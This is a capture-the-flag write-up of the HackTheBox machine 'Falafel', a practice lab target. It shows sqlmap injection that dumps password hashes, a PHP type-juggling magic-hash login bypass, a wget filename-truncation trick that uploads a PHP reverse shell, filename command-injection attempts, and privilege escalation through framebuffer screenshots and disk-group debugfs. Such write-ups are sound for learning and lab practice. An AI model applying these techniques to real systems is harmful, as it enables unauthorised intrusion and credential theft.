







# Falafel

Author: Ewaël

**Falafel** is a hard HackTheBox box by dm0n & Stylish.

`nmap -sC -sV -oN nmap 10.10.10.73 -v -A` shows only ports 22 and 80 are open. As often, let's check the site.



I could try some phishing on `IT@falafel.htb`, but let's keep that for later if needed. Before digging the website, I'll try some enumeration on the ssh port `OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)`:

```
OpenSSH 7.2p2 - Username Enumeration  | linux/remote/40136.py
```

Renaming it to `ssh_user_enum.py`, I use `python ssh_user_enum.py -U /usr/share/wordlists/metasploit/namelist.txt 10.10.10.73` without success.

Let's see what to do with the login page.



Entering `test:test` fails with `Try again...` but some SQL injections like `'or''=':'or''='` displays `Wrong identification : admin`. Thus there is an `admin` user and I now know that I can easily list users through that login page and error messages.

Before doing so, let's check if I can access any interesting URL with gobuster. Considering the `robots.txt` disallows `.txt` files, let's extend the list with `txt` and `php` extensions:

```
$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php -u http://10.10.10.73
...
/index.php (Status: 200)
/images (Status: 301)
/login.php (Status: 200)
/profile.php (Status: 302)
/uploads (Status: 301)
/header.php (Status: 200)
/assets (Status: 301)
/footer.php (Status: 200)
/upload.php (Status: 302)
/css (Status: 301)
/style.php (Status: 200)
/js (Status: 301)
/logout.php (Status: 302)
/robots.txt (Status: 200)
/cyberlaw.txt (Status: 200)
/connection.php (Status: 200)
```

That `cyberlaw.txt` looks pretty:

```
...
A user named "chris" has informed me that he could log into MY account without knowing the password,
then take FULL CONTROL of the website using the image upload feature.
We got a cyber protection on the login form, and a senior php developer worked on filtering the URL of the upload,
so I have no idea how he did it.
...
```

Nice way to discover that `chris` user without bruteforcing the login page. Now let's go back to SQL injections using sqlmap and my request file:

```
POST /login.php HTTP/1.1
Host: 10.10.10.73
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.73/login.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 29
Connection: close
Cookie: PHPSESSID=qodc8rfqevdk39tk4liecpcb04
Upgrade-Insecure-Requests: 1

username=admin&password=admin
```

```
sqlmap -r login_request --level=5 --risk=3 --dbs -p username,password --batch
```

But it does not work. However because I know SQL injections are possible on that page, I can try to be more precise:

```
sqlmap -r login_request --level 5 --risk 3 -p username,password --batch --dbms mysql --string "Wrong identification" --dbs
```

There it is!

```
available databases [2]:
[*] falafel
[*] information_schema
```

Digging a bit I easily find some creds:

```
$ sqlmap -r login_request --level 5 --risk 3 -p username,password --batch --dbms mysql --string "Wrong identification" -D falafel -T users --dump
...
+----+--------+---------------------------------------------+----------+
| ID | role   | password                                    | username |
+----+--------+---------------------------------------------+----------+
| 1  | admin  | 0e462096931906507119562988736854            | admin    |
| 2  | normal | d4ee02a22fc872e36d9e3751ba72ddc8 (juggling) | chris    |
+----+--------+---------------------------------------------+----------+
```

I can now log on the site using `chris:juggling` credentitials.



```
Hey, my name is chris, and I work at the local circus as a juggler. After work, I always eat falafel.
By night, I pentest random websites as a hobby. It's funny how sometimes both the hobby and work have something in common..
```

Another reference to juggling... Definitly means there is something to do with [PHP type juggling](https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf) considering `admin`'s password is hashed as `0e462096931906507119562988736854`.

```
$ echo -n 0e215962017 | md5sum
0e291242476940776845150308577824
```

Login in with `admin:0e215962017` works as expected! The comparison between passwords's hashes is done using `==` instead of `===` indeed which interprets both strings as numbers.



I can now upload images, which was the entry point for the last attack according to that `cyberlaw.txt`.

First I try some null bytes in URL and extension tricks but the reverse shell is never executed.



I also try command injection using filenames like `file.png; id;.png` or `file'\''; id;.png` considering the file upload uses `cd [tmp directory]; wget [url]` but I can not escape from that `wget` command. Then I follow [https://www.exploit-db.com/exploits/40064](https://www.exploit-db.com/exploits/40064) to upload my own public key to `/home/chris/.ssh/authorized_keys` but it fails because of that `cd` command before the `wget` call.

Then let's try to upload a reverse shell again. Now that I know it uses `wget` to upload the file I can exploit it following [https://book.hacktricks.xyz/pentesting-web/file-upload#wget-file-upload-ssrf-trick](https://book.hacktricks.xyz/pentesting-web/file-upload#wget-file-upload-ssrf-trick):

```
mv php-reverse-shell.php $(python -c 'print("A"*(236-4)+".php"+".png")')
```

Start the server and upload the renamed shell, start the listener on chosen port and visit the uploaded file's URL:



The filename has been cut after 236 characters, removing the `.png` extension:

```
http://10.10.10.73/uploads/0820-2251_51faa67b452c8643/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php
```

And there is the shell as `www-data`!

## Privilege escalation

Let's start with a nicer shell to work with: `python3 -c 'import pty;pty.spawn("/bin/bash")'`. Looking around I find:

```php
$ cat /var/www/html/connection.php
<?php
   define('DB_SERVER', 'localhost:3306');
   define('DB_USERNAME', 'moshe');
   define('DB_PASSWORD', 'falafelIsReallyTasty');
   define('DB_DATABASE', 'falafel');
   $db = mysqli_connect(DB_SERVER,DB_USERNAME,DB_PASSWORD,DB_DATABASE);
   // Check connection
   if (mysqli_connect_errno())
   {
      echo "Failed to connect to MySQL: " . mysqli_connect_error();
   }
?>
```

I can now `su moshe` using `falafelIsReallyTasty` password, and I have the user flag:

`c866575ed5999e1a878b1494fcb1f9d3`

Considering there is an other user `yossi`, I should focus on him. Let's upload a quick enumeration script like `linpeas.sh`.

```
...
yossi    tty1                          Thu Aug 20 20:10   still logged in
...
/bin/ntfs-3g            --->    Debian9/8/7/Ubuntu/Gentoo/others/Ubuntu_Server_16.10_and_others(02-2017)
...
```

Both could be an entry point, but let's dump the SQL database before looking at these to check if I missed anything:

```
mysqldump -umoshe -pfalafelIsReallyTasty falafel
```

It returns a lock table error that I easily remove reading [https://michaelrigart.be/mysqldump-1044-access-denied-using-lock-tables](https://michaelrigart.be/mysqldump-1044-access-denied-using-lock-tables/)

```
mysqldump --single-transaction -umoshe -pfalafelIsReallyTasty falafel
```

But I don't find anything more than with the earlier SQL injections so it's time to take a look at a potential `ntfs-3g` exploit. I try [https://www.exploit-db.com/exploits/41240](https://www.exploit-db.com/exploits/41240) that uses CVE-2017-0358 which is explained here [https://www.exploit-db.com/exploits/41356](https://www.exploit-db.com/exploits/41356) but I can't make it work.

Let's finally check that weird `yossi` connection. The line suggests that he's *physically* logged in, which is impossible on an HackTheBox virtual machine. There is also that strange `video` group:

```
uid=1001(moshe) gid=1001(moshe) groups=1001(moshe),4(adm),8(mail),9(news),22(voice),25(floppy),29(audio),44(video),60(games)
```

Reading [https://www.kernel.org/doc/Documentation/fb/framebuffer.txt](https://www.kernel.org/doc/Documentation/fb/framebuffer.txt) documentation, I find an interesting paragraph:

```
The frame buffer devices are also `normal' memory devices, this means, you can
read and write their contents. You can, for example, make a screen snapshot by

  cp /dev/fb0 myfile
```

Let's check that `fb0` file by downloading it on host through netcat.

```
$ file fb0
fb0: Targa image data - Map (256-257) 257 x 1 x 1 +257 +1 - 1-bit alpha "\001"
```

This format is handled by GIMP, but it does not work at first, even with the `.tga` extension. The trick is to load the image as `raw image data` then to change the parameters following informations in `/sys/class/graphics/fb0` on target, considering the screen is taken on the target machine.



It is clear that `yossi` changed his password to `MoshePlzStopHackingMe!`, thus I am now `yossi`!

```
yossi@falafel:/tmp/yossi$ find / -perm -u=s 2>/dev/null
/usr/bin/pkexec
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/at
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/newuidmap
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/bin/fusermount
/bin/mount
/bin/ping
/bin/ntfs-3g
/bin/ping6
/bin/su
```

Let's try to exploit that suid on `pkexec` using [https://www.exploit-db.com/exploits/17942](https://www.exploit-db.com/exploits/17942). Compile in on host and download it on target to execute it but the exploit fails.

Then I try some enumeration with `linpeas.sh` again.

```
User & Groups: uid=1000(yossi) gid=1000(yossi) groups=1000(yossi),4(adm),6(disk),24(cdrom),30(dip),46(plugdev),117(lpadmin),118(sambashare)
```

`disk` group is `99% a PE vector` according to the script. I follow [https://reboare.gitbooks.io/booj-security/content/general-linux/privilege-escalation.html#disk](https://reboare.gitbooks.io/booj-security/content/general-linux/privilege-escalation.html#disk) to ultimately get my root flag:

```
$ debugfs /dev/sda1`
debugfs 1.42.13 (17-May-2015)
debugfs:  cat /root/root.txt
23b79200448c62ffd6f8f2091c001fa1
```
